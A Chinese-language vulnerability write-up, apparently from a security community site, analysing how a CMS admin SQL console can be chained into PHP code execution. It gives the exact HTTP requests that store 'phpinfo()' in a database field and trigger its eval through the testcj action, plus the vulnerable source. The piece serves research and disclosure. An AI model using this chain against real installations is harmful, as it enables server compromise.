# 从sql 注入到rce 的挖掘分析-先知社区

> **来源**: https://xz.aliyun.com/news/17050  
> **文章ID**: 17050

---

# 从sql 注入到rce 的挖掘分析

## 前言

**文章中涉及的敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担**

## 漏洞复现

首先我们简单复现一波

环境搭建成功后如下



这里可以执行sql 语句



输入

```
POST /admin.php?&m=Sql&a=sqlset HTTP/1.1
Host: lxcml:9685
Content-Length: 134
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://lxcml:9685
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://lxcml:9685/admin.php?m=Sql&a=index&type=0
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=a0097ulik2mkk0s0cmjeeip867
Connection: keep-alive

sqlstr=UPDATE+%60lxcms%60.%60lmx_cj_list%60+SET+%60array%60+%3D+%27phpinfo%28%29%27+WHERE+%60lid%60+%3D+1%3B&sqlsub=%E6%8F%90%E4%BA%A4
```



执行成功后我们访问首页

```
GET /admin.php?m=Acquisi&a=testcj&lid=1 HTTP/1.1
Host: lxcml:9685
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=a0097ulik2mkk0s0cmjeeip867
Connection: keep-alive
```



成功执行了phpinfo

## 漏洞寻找过程

为什么控制sql 语句就能够执行命令呢?

这里我们详细分析分析

首先拿出我们的源码审计系统



我们随便点击一个



可以看到这个代码就是获取我们的数据后

判定我们的数据类型，如果是数组那么就分割后放入eval 里面执行命令

这里我们跟踪跟踪，看看调用



不多两个方法

```
//根据采集id获取采集规则和节点数据并初始化
public function caijiData($lid){
    $this->join=array(
        'fromTab' => 'cj_list',
        'field' => array(
            'cj_list' => array('*'),
            'cj' => array('name','mid','id'),
        ),
        'on' => array(
            array('LEFT','cj','cj.id [=] cj_list.uid'),
        ),
    );
    $param['where'] = 'lid = '.$lid;
    $data = parent::joinModel($param);
    return $this->formatData($data[0]);
}
```

我们需要跟踪data 的来源，可以看到归根结底

涉及到了join，也就是一个join 数组

有点复杂看不懂



应该就是一个查询，不过查询的数据取决于我们的最开始的数据$lid

继续跟踪



三个，我们看到 testcj 方法

```
public function testcj(){
    $caijiData = $this->model->caijiData($this->lid);
    $caiji = new caiji($caijiData);
    $Fielddata = $caiji->testCaiji();
    $field = $GLOBALS['allfield'][$caijiData['mid']];
    $list[0]['name'] = '标题';
    $list[0]['value'] = $Fielddata['title'];
    $list[1]['name'] = '网页关键字';
    $list[1]['value'] = $Fielddata['keywords'];
    $list[2]['name'] = '网页描述';
    $list[2]['value'] = $Fielddata['description'];
    $index = 3;
    foreach($field as $v){
        if($v['ftype'] == 'moreimage' || $v['ftype'] == 'morefile'){
            $list[$index]['name'] = $v['ftitle'];
            $list[$index]['value'] = explode('#####',$Fielddata[$v['fname']]);
        }else{
            $list[$index]['name'] = $v['ftitle'];
            $list[$index]['value'] = $Fielddata[$v['fname']];
        }
        $index++;
    }
    $list[100]['name'] = '增加Tags';
    $list[100]['value'] = $Fielddata['tagsname'];
    $list[101]['name'] = '增加专题id';
    $list[101]['value'] = $Fielddata['ztid'];
    $this->smarty->assign('caijiId',$caijiData['id']);
    $this->smarty->assign('caijiName',$caijiData['name']);
    $this->smarty->assign('list',$list);
    $this->smarty->display('Caiji/testCaiji.html');
}
```

直接是一个方法了，我们可以直接调用的方法

参数如何传入呢？

```
public function __construct() {
    parent::__construct();
    session_write_close(); //防止session阻塞
    if(!function_exists('curl_init')) rewrite::error('空间不支持【curl】功能，无法采集，请联系你的空间商','?m=Index&a=main',3000);
    if($this->model == null) $this->model = new AcquisiModel();
    $this->id = $_GET['id'] ? $_GET['id'] : $_POST['id'];
    $this->uid = $_GET['uid'] ? $_GET['uid'] : $_POST['uid'];
    $this->lid = $_GET['lid'] ? $_GET['lid'] : $_POST['lid'];
    $this->fieldCj = array('name','mid','content');
}
```

在这个构造方法中给出了答案

所以一步一步往上找，发现我们的数据是从sql 数据库中查找来的，而查找的数据又取决去我们的lid

如果我们能够控制数据库的数据，那岂不是能够造成命令执行

现在就是寻找sql 注入了

但是这个系统很方便的就是可以直接执行我们的sql 语句，所以形成闭环了

## 调试

我们调试一波

首先我们先sql 注入一下我们的数据



然后执行payload  


可以看到传入了我们的 1



形成sql语句查询数据

查询出我们的data



把我们的payload 带出来了

根据判断



带入了eval 执行，导致了命令执行
